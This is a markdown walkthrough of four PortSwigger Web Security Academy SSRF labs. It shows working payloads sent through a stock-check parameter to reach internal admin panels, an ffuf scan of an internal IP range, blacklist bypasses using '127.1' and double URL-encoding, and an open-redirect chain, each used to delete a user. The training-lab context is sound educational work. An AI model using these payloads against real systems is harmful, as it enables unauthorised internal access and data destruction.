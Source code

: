 # Server-side request forgery (SSRF)

- https://portswigger.net/web-security/ssrf
- https://portswigger.net/web-security/ssrf/blind

## Basic SSRF against the local server

Checking the items in the stock functionality is made by `POST /product/stock` request, which takes `stockApi` as param.

Its initial value of this param is `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1`, but this site is not available, so we can assume this is a link to the internal server and the app makes request to that endpoint retrieving its value to the website.

Changing the `stockApi` param to `http://localhost/admin` retrieves the content of the admin panel embeded in the product page.

Performing `POST /product/stock` request with `stockApi` value set as `http://localhost/admin/delete?username=carlos` removes the `carlos` user and solves the lab.

## Basic SSRF against another back-end system

This time stock check functionality is at `192.168.0.1`, which we can observe at `POST /product/stock` within `stockApi` parameter. 

`/admin` functionality is not present at this IP, but we can try to find different IP which may have it. To scan the network below code was used. Additionally it forwards the requests via Burp proxy and filters 500 responses.

```
seq 0 255 > ip.txt
ffuf -u 'https://0a98008d032d9726815dcf3f001c0047.web-security-academy.net/product/stock' -X POST -w ip.txt -d 'stockApi=http://192.168.0.FUZZ:8080/admin' -fc 500 -x http://localhost:8080
```

After this, one IP is revieled and we can access the admin pannel and remove the user with `stockApi` param set sa `http://192.168.0.26:8080/admin/delete?username=carlos`.

## SSRF with blacklist-based input filter

Using `stockApi` param as previously we can try to perform SSRF attack again, but this time it will be blocked.

Iterative tries to bypass the block displayed as a list below:
 - http://127.0.0.1/ - blocked
 - http://127.1/ - not blocked, 200 response cotaining embeded home page
 - http://127.1/admin - blocked
 - http://127.1/administrator - blocked
 - http://127.1/admin/1 - blocked
 - http://127.1/1 - not blocked
 - http://127.1/aDmIn - not blocked, but no results either
 - http://127.1/admi - not blocked, "admin" substring must be detected and blocked
 - http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65 (admin 2x times URL encoded) - not blocked and results in admin panel!

Now that we have found a way to access the admin panel, we can remove the `carlos` user and solve the lab, using `stockApi` param with value `http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos`

## SSRF with filter bypass via open redirection vulnerability

`GET /product/nextProduct` is vulnerable to open redirect. `path` param originaly is set as a relative path, but it accepts also full url and redirects to it without any issues.

Providing `http://localhost:8080/admin` as `path` param responds with 302 status and redirects to `localhost` happily.

This time `POST /product/stock` as `stockApi` param accepts only relative paths. Providing full URL responds with an error.

We can make use of open redirect in relative path `/product/nextProduct` to make a redirect to a full URL.

Making a `POST /product/stock` with param `stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//localhost/` responds with a homepage with visible navigation to `/admin` page, so we must bypass classic authentication or has a admin session somehow in the app.

Adding `/admin` to previous endpoint fails, so according to lab description we should fetch `http://192.168.0.12:8080/admin`

Making a `POST /product/stock` with param `stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin` accesses the admin panel and `stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos` removes `carlos` user which solves the lab.
